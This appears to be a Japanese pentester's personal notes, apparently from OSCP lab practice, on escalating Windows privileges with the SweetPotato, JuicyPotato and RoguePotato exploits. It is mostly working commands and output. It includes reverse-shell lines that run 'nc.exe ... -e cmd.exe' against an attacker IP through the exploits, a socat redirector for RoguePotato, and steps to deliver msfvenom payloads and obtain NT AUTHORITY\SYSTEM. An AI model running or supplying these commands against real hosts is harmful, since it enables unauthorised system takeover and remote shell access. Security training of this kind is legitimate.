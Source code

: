 # JuicyPotate

sweetpotateは包含的にpocを実行してくれるためまずはそちらを試す

[前提確認](#前提確認)

[実行(sweetpotate)](#実行(sweetpotate))

[実行(juicypotate)](実行(juicypotate))

[実行(roguepotate)](#実行(roguepotate))

[参考サイト](#参考サイト)

### 前提確認

```
whoami /priv
```

`SeImpersonatePrivilege`権限があることを確認

```
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
```

windowsのビルドバージョンを確認

* ```
  攻撃対象のマシンが < Windows 10 1809 < Windows Server 2019 の場合 - Juicy Potato
  ```

* ```
  攻撃対象のマシンが >= Windows 10 1809 & Windows Server 2019 の場合 - Rogue Potato
  ```



### 実行(sweetpotate)

https://github.com/uknowsec/SweetPotato/blob/master/img/webshell-new.png

```cmd
SweetPotato.exe -a whoami
SweetPotato.exe -a "C:\Users\Public\nc.exe 192.168.119.169 4443 -e cmd.exe"
```



### 実行(juicypotate)

https://github.com/ohpe/juicy-potato

juicy-potatoをvisual studioでコンパイルして、攻撃対象ホストに配送し、コマンドを実行する。

```cmd
C:\Users\Public\UsersPublicJuicyPotato.exe -t t -p C:\Users\Public\whoami.exe -l 5837

----
# 実行結果
C:\Users\Public>UjiycOptaot.exe -t t -p C:\Users\Public\whoami.exe -l 5837
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 5837
......
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK
```

* -t：CreateProcessWithTokenの使用を指示する

* -pフラグで実行しようとするプログラムを指定

* -lフラグでCOMサーバーがリッスンするポートを任意に指定

* whoami.exeは任意のバイナリファイル(mafvenomで作成して事前配送すること）

  **※whoami単体できちんとリバースシェル取得できるかをまず確認する**



### 実行(roguepotate)

* https://github.com/antonioCoco/RoguePotato

  ![image-20230409101428457](../../../TIL/OSCP/2023/LAB/Challenge4/img/MS01/image-20230409101428457.png)

* 事前に2つのexeを配送

  ![image-20230409112901158](img/JuicyPotato/image-20230409112901158.png)

* kaliでsocatをListenする

  ```bash
  sudo socat tcp-listen:135,reuseaddr,fork tcp:<攻撃対象ホスト>:9999
  ```

* nc64.exeを配送する

  ```
  nc.exe 192.168.119.169 4444 -e cmd.exe
  ```

* PoCを実行する

  ```
  RoguePotato.exe -r 192.168.119.169 -e "C:\Users\Public\nc.exe 192.168.119.169 4443 -e cmd.exe" -l 9999
  ```




### x86でビルドする方法

* visualstudioのフォルダビューで`JuicyPotato.vcxprof`を開き、ConfigurationTypeがApplicationになっていることを確認する

  ![image-20230211134602822](img/JuicyPotato/image-20230211134602822.png)

* 構成プロパティ→リンカー→システムのサブシステムを変更する

  【変更前】Windows (/SUBSYSTEM:WINDOWS) 
  【変更後】コンソール (/SUBSYSTEM:CONSOLE)
  https://detail.chiebukuro.yahoo.co.jp/qa/question_detail/q13198063873

  https://learn.microsoft.com/ja-jp/cpp/build/reference/subsystem-specify-subsystem?view=msvc-170

  上記サイトを参照すると、win32文字モードアプリケーションに対する設定のよう。
  今回の修正をしたことでx64でのビルドが失敗する可能性があるので注意すること



### JuicyPotateのOS対応表

https://jlajara.gitlab.io/Potatoes_Windows_Privesc



### CLSIDの対応表

https://ohpe.it/juicy-potato/CLSID/Windows_Server_2012_Datacenter/



### トラブルシュート

FTPで転送するときは必ずバイナリモードで

```cmd
C:\Users\Public>JuicyPotato.exe
JuicyPotato.exe
This version of C:\Users\Public\JuicyPotato.exe is not compatible with the version of Windows you're running. Check your computer's system information and then contact the software publisher.
```



### 参考サイト

[potatesのまとめサイト](https://jlajara.gitlab.io/Potatoes_Windows_Privesc)

